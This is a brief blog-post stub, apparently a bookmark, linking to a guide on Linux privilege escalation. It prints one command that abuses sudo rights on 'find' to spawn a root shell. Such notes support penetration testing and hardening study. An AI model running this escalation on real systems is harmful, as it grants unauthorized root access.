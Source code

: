 ```yaml
---
title: "Tool: Linux PE GotMilk"
date: 2020-12-30T10:34:30-04:00
categories:
  - Blog
  - Tool
tags:
  - tool
  - Linux PE
  - link
  - PE
link: https://payatu.com/guide-linux-privilege-escalation
---
```

A Guide To Linux Privilege Escalation
sudo /usr/bin/find /etc -exec /bin/bash \;

